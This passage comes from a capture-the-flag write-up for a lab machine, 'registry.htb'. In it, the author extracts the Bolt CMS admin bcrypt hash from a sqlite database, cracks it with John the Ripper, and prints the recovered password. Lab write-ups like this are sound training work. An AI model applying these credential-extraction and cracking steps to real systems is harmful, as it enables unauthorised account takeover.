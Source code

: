 Great, now we open the browser sqlite. 

![image-20200402194129488](img/image-20200402194129488.png)

We see in the `bolt_users` table the admin user and a hash. Lets copy that to a file and ask john

```sh
#cat hash 
$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK

#john hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
strawberry       (?)
1g 0:00:00:08 DONE 2/3 (2020-04-02 19:35) 0.1133g/s 126.5p/s 126.5c/s 126.5C/s stinky..warren
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Hello ! we have a username:password:  `bolt@registry.htb : strawberry`. It is interesting that this is a bcrypt [Blowfish 32/64 X3] password type. Let's try to login with that: 


